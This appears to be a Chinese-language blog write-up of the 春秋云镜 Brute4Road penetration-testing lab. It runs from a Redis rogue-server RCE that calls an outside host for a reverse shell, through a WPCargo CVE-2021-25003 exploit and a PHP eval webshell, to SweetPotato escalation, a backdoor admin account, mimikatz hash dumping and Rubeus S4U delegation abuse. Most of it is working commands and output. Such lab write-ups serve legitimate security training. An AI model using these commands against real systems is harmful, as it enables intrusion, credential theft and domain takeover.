








+++
title= "春秋云镜Brute4Road"
slug= "springautumn-cloudmirror-brute4road"
description= "Redis主从复制RCE、base64利用suid提权、CVE-2021-25003、FULL-S4U攻击"
date= "2025-08-20T13:30:44+08:00"
lastmod= "2025-08-20T13:30:44+08:00"
image= ""
license= ""
categories= ["春秋云镜"]
tags= ["Pentest"]

+++

## flag1

fscan扫描一下靶机`./fscan -h 39.98.116.123 -p 1-65535`

```bash
39.98.116.123:22 open
39.98.116.123:21 open
39.98.116.123:80 open
39.98.116.123:6379 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://39.98.116.123      code:200 len:4833   title:Welcome to CentOS
[+] ftp 39.98.116.123:21:anonymous 
   [->]pub
[+] Redis 39.98.116.123:6379 unauthorized file:/usr/local/redis/db/dump.rdb
```

有ftp和redis的未授权，链接一下

```bash
lftp -u anonymous, 39.98.116.123
set ftp:charset GBK

redis-cli -h 39.98.116.123
```

ftp里面没东西，Redis得知版本为5.0.12。可以打主从复制RCE  https://github.com/n0b0dyCN/redis-rogue-server 但是特别容易打崩，记得把服务器的21000端口打开

```bash
python3 redis-rogue-server.py --rhost 39.98.116.123 --lhost 160.30.231.213

r
160.30.231.213
9999

nc -lvnp 9999
```

得到反弹shell之后接着交互一下，suid提权

```bash
script /dev/null

find / -perm -u=s -type f 2>/dev/null
```

看到有base64可以suid提权 https://gtfobins.github.io/gtfobins/base64/ 不过只能查看文件，后面发现并不在root目录，而且读取文件还不能使用通配符，

```bash
find / -name "flag" 

base64 "/home/redis/flag/flag01" | base64 --decode
```

## flag2

传fscan和Ligolo-ng

```bash
cd /tmp

wget http://160.30.231.213:8080/fscan
wget http://160.30.231.213:8080/agent

chmod +x *
```

`/etc/hosts`文件里面拿到内网IP

```bash
(icmp) Target 172.22.2.3      is alive
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.18     is alive
(icmp) Target 172.22.2.34     is alive
(icmp) Target 172.22.2.16     is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:6379 open
172.22.2.16:1433 open
172.22.2.16:445 open
172.22.2.18:445 open
172.22.2.34:445 open
172.22.2.3:445 open
172.22.2.16:139 open
172.22.2.34:139 open
172.22.2.18:139 open
172.22.2.3:139 open
172.22.2.34:135 open
172.22.2.16:135 open
172.22.2.3:135 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.18:22 open
172.22.2.7:80 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.3:88 open
[*] alive ports len is: 20
start vulscan
[*] WebTitle http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] NetInfo 
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo 
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] NetBios 172.22.2.3      [+] DC:DC.xiaorang.lab               Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.2.34     XIAORANG\CLIENT01             
[*] NetInfo 
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] WebTitle http://172.22.2.16        code:404 len:315    title:Not Found
[*] NetBios 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.2.18     WORKGROUP\UBUNTU-WEB02        
[*] OsInfo 172.22.2.3   (Windows Server 2016 Datacenter 14393)
[+] ftp 172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
```

整理一下

- 172.22.2.18   WordPress并且是WORKGROUP\UBUNTU-WEB02
- 172.22.2.16     MSSQLSERVER.xiaorang.lab
- 172.22.2.3      DC.xiaorang.lab
- 172.22.2.7  已经被控
- 172.22.2.34     XIAORANG\CLIENT01 

搭建代理

```bash
nohup ./agent -bind 0.0.0.0:10010 > agent.log 2>&1 &


sudo ./proxy -selfcert -laddr "0.0.0.0:10001"

connect_agent --ip 39.98.116.123:10010

interface_list
session
autoroute

nohup ./gost -L=socks://:1080 > gost.log 2>&1 &

# 查看是否开启
ss -luntp
```

打这个WP用wpscan扫描一下

```bash
wpscan --update

wpscan --url http://172.22.2.18
```

扫描出WPCargo插件 6.x.x版本 RCE漏洞 https://github.com/biulove0x/CVE-2021-25003

```bash
git clone https://github.com/biulove0x/CVE-2021-25003.git
cd CVE-2021-25003/

python3 WpCargo.py --help
python3 WpCargo.py -t http://172.22.2.18/
```



写个木马上去链接一下`2=echo PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=|base64 -d > /var/www/html/shell.php`



拿到数据库账号密码，链一下





发现flag2和密码，把**密码**导出来进行爆破，用户名不需要

## flag3

接下来打**MSSQLSERVER.xiaorang.lab**，https://github.com/shack2/SNETCracker/releases 用工具进行爆破，我是win10直接用的exe就行



```
172.22.2.16----SQLServer----1433----sa----ElGNkOiC
```

激活组件，发现权限不够，但是有**SeImpersonatePrivilege**，上传甜土豆提权

```bash
C:/Users/Public/SweetPotato.exe -a "whoami"

C:/Users/Public/SweetPotato.exe -a "netstat -ano"
```

新建一个用户RDP上去，拿到flag3

```bash
"net user test1 baozongwi123! /add"
"net localgroup administrators test1 /add"
```

## flag4

我们先拿机器用户的`NTHash`，传一个mimikatz.exe到桌面，`systeminfo`查看到在域里面，用管理员权限打开猕猴桃

```cmd
privilege::debug
sekurlsa::logonpasswords
```



拿到NTHash之后直接PTH攻击，懒得制作银票

```cmd
sekurlsa::pth /user:MSSQLSERVER$ /domain:XIAORANG.LAB /ntlm:4f4be8211219a166ed7d4db9f3ea90f1

net user /domain
```



收集域内信息

```cmd
cd C:\Users\test1\Desktop
SharpHound.exe -c all
```

直接找到这个机器用户看到入站执行权限里面DC是他的受约束委派用户



> In the following example, *victim* is the attacker-controlled account (i.e. the hash is known) that is configured for constrained delegation. That is, *victim* has the "HTTP/PRIMARY.testlab.local" service principal name (SPN) set in its msds-AllowedToDelegateTo property. The command first requests a TGT for the *victim* user and executes the S4U2self/S4U2proxy process to impersonate the "admin" user to the "HTTP/PRIMARY.testlab.local" SPN. The alternative sname "cifs" is substituted in to the final service ticket and the ticket is submitted to the current logon session. This grants the attacker the ability to access the file system of PRIMARY.testlab.local as the "admin" user.
> 在以下示例中，*victim* 是为受约束委派配置的攻击者控制的帐户（即哈希值是已知的）。也就是说，*victim* 在其 msds-AllowedToDelegateTo 属性中设置了“HTTP/PRIMARY.testlab.local”服务主体名称 （SPN）。该命令首先为 *受害者* 用户请求 TGT，并执行 S4U2self/S4U2proxy 进程，将“admin”用户模拟到“HTTP/PRIMARY.testlab.local”SPN。替代名称“cifs”将替换到最终服务票证中，并将票证提交到当前登录会话。这使攻击者能够以“admin”用户身份访问 PRIMARY.testlab.local 的文件系统。

可以进行约束委派攻击**FULL S4U2**，有了机器用户的`NTHash`就可以申请TGT

```cmd
C:\Users\test1\Desktop>.\Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:4f4be8211219a166ed7d4db9f3ea90f1 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: ba19fde2ad1b06b123522cbadd28521c
[*] Building AS-REQ (w/ preauth) for: 'xiaorang.lab\MSSQLSERVER$'
[*] Using domain controller: 172.22.2.3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE1TOiCBmHM2Ha6tp0uHeMQtXvcRO783PdU+aN6yn3uHivf0x9uoQTFr2PWHry5GmIc4FrtcR6dis3h4NgCFc2cZIK9AVW6rLRsgnQKHaAvDJNQyL89Yi+B7SrvWPwm+Fic0FyYmffV6WSsKubCu17Iwt17wvL88lqWqUBykz3h8xRXvzIK4vXpR4Yl7NLCBZXEA9lztqDuD0gbHjeQXm3U9pLxL+fLhUp87RQCWuhRXGHn+WfxeAlZMdIhrJdl5mf7QiUjlx5s+ydKMRh/CvUXR/9XOgt0TQNvnQLm68Wn/TOlQWVwA2PXO+W/bz6OqsQs/auGfmAwjfT67k/BJBOeoyReYlqo2WdDAYl3DJQocHNfteFCgU7/c9517zzbDDmzkPN6WEDOWJhRXLhhdvLiwLJguzESbTxe7c6DsMky2NLSL+w/z1229scI+eoRhWQFnm5kDPeoHcrEu2j4RsLcdLAAoo56ALr1+dINBeejDDER92J9YI4YByIV8XKGqe12Be/yj0UXVb7/0z4d0slY5tfCiIFbbhRIWrsiNitAEGdYypNOVGIJVgmNHRs5kjDnncaJq/B8cWIEHvvYvcG1BDlthCvSQ7uiDlv1uDvNjR+7Z7WvD1XhsoDNOlrwI6h/h/M1oNYx/5yGoQlNoj3dIq9/6jWtaghZW7hlCIbPX27AgLxbPUUrBGGXDlD/J/2iw2veboSYMPtuThiWY2juCKAIw397SbokXmV79HNFnKx4Dqq4wGvY9jLcYz/Zm594zks3mZuD2k3dB92ZEb2TYCNzKxMe+QFcyUkxg4BLLlhWlYlm4m/XxbyKoRfRE0VxW5yKffn9r7kKLkfHRBfnJ5qLDNz6LOjugUuPd8Dum6udKxCIuEUD7pENa6Qe9+1NUwGvuN0f5KWszsoIOZCv6hc//f+pQ1cFuExhv2XGR2+cYTRORZHkbUF+Wxgt9UWE2l3OhnzOT5S5xRp4n5OxjsTxzyLnJDvgPZR4BX9IbiNmF+Lbwt46SzDxhqqdgWRdchjUJYqbpEqE2rW/UqaeaumRgoVQX+v6qVQP6WKcZUIX3Idz2Y1T+xq/gqpnDysuIA18GlN3Yk4DVdBmi+YmfIQBCl2Dop8QYXdIpRpH4njvzsXqw+AyAG5uMIvFgsRh92hxkTPLW1HLJweZwKSrvnsc/hHql73Euix+QLwckgS2aKjmXkJNyT8bjvPO9N30dQ+CILbEwzS14umUWnv3si3kRk77c3pIzKdmVx18IrW6r7DZrSAbb/mfo8wIls4/pV/d6z7rCqREfO6/zS66PwVTM15DfUMRjQl26Y6mO66tnV7gOF9UYrhpd3/4xkEKXfyCX/KHMTienLKxdX67UACJjkMiWZD6LCCQxLto5nK8sXBB0srtLhYvxaFDSA0vtENnGKiLcMn87TPLbxtrTjeYsZhPjO6eOrJ/6zvcqmW8gw48ZIdatujgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDxBbDHOspNBhHbGjmwKfZUoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDI1MDUxOTA3NDIwOFqmERgPMjAyNTA1MTkxNzQyMDhapxEYDzIwMjUwNTI2MDc0MjA4WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==

  ServiceName              :  krbtgt/xiaorang.lab
  ServiceRealm             :  XIAORANG.LAB
  UserName                 :  MSSQLSERVER$
  UserRealm                :  XIAORANG.LAB
  StartTime                :  2025/5/19 15:42:08
  EndTime                  :  2025/5/20 1:42:08
  RenewTill                :  2025/5/26 15:42:08
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  8QWwxzrKTQYR2xo5sCn2VA==
  ASREP (key)              :  BA19FDE2AD1B06B123522CBADD28521C
```

再注入票据进行S4U攻击

```cmd
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE0DbJuuq5Ria/zpevMDmrKCFPThuc66RXD9pTO38JXwSqw0zr2rE00SEJ3DcFS07mLk6NF80OnbIWri1GlYMeB4LRvz62xIAYJsfHTeGY/EuTMB94HdXiE6HnqftUHkK3Rknp8LgypfFDkpVm/TgjBrPnPL5Hnp33ovntmbn30g3J8x8ne5LHBVJnCQzwM5zG+Mq4TcU/THF8VYxpapAMCPUg1TwnzgFqOk7v8fTOPdqVHr1J9RmOxenVocAM04HDvGMlH3/1Z3d1eZt3JYkeuU+b0XzIWS1D2HK7x/uRPFBCtiUVuPb0YOCLTLEwW5PCF1gBUyfwLhshxB0NLacT1R+OQAp+gu8nSef/CrovPqxYMkFVmy6Db3/IH+gJhanCAQZMoGePBrJGAkVdZIz8dGZ6dXzqKMxy4t5sSv8AofwTqRoHwnw1GuRlJsEcUuemwTPVZNeHL4wBAa7G4lKKvClZKGcV4mnqou3Ow/DFu4tNTaZLcQfxOPQUN0TyTlXd/dkWEKvoFPjjRxCjuKL8WQ6+4aHtzTcJvd4a4BOXy3cAmgewYt2GVOwgqpyL0DK5wmsI/4uJoGk4iUrFICdJpxhQ0y/MhQAPhtLlRINLPoCCJLNRQ5cHq5qLHxqAqKeYrJxwpoLQaPKzUW5sMYyAeK8WK4kExyPBJaglQOQiVhzazK2LGs2Y25sE3nEMDhLoKOgHy1YPL0wn5BfUUHi0k4k25YdJt8HU48AW9rqzaovASOVuTasloYYRlxFxKlifYyEVaJGXykavY35sR2kQthghLgAZRaCUHuESM0beksOd5uRTL8lfi27tJ4GOJkNicns4gFP4gGBFX62DXOmk+3WjBcueFtqYmlLOjEqP+km3/NmnoJRPhvj0k3Qd7CGMhiRFbd4J9I2BcWNA3IYeFePr8NNPPvGMlbLzMtkpdR0wEuM8jCYR4jjDXqlVX71Z5fzCnMFrg/7pqnqQ+DZy7avDGgJ2rlOZffHEeOBNGHJBOHv1qihrxcXNis39R6gvtBbpWlDwG7WhvWaVR7i34neY9mGr+B202l3NucYGnJqBNONaugHY0wad+D/0cBZ+HG+sOBlIq5d/WvZAk6i2nG6MuVl7VcTURxtq9tOf48eC0XF2YMUTRJrjbEI1hD0yzkrGNIYp553jLgNwslYvf7/ndKbe1mPr4scYHgQLu9y/e8hs9rl3jru6kizB+CGTqhkMGSUrFzml7S3QEoufIx9DpjtmpksZqEQxsYXijbp/9Cn6NtGdxmm4O1VcHUr12VotESpaBQCGqaFFck0dnjt9LzkQOhQr3mbgoFHdSZevbItF/CAtx2eXW0wmciLOgVabZslEPWoFWeI9ZUqsMsvEEjXqXPJHiKc4KOokw9OeZIdVbPr91GOzIrAXMVv98XP42rGDohw60RcMA6OsaJeCh7IH3S6w0zGuu91ikcmIUsHMOWcP6IlkfXJVWjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBBznQz6kRyRh31/JiQ6BknfoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDI1MDYxODA1MzU1OFqmERgPMjAyNTA2MTgxNTM1NThapxEYDzIwMjUwNjI1MDUzNTU4WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```

看起来太长了也可以直接一次性搞定，让他在内部申请TGT再直接完成S4U攻击

```cmd
.\Rubeus.exe s4u /user:MSSQLSERVER$ /rc4:4f4be8211219a166ed7d4db9f3ea90f1 /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt

type \\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt
```


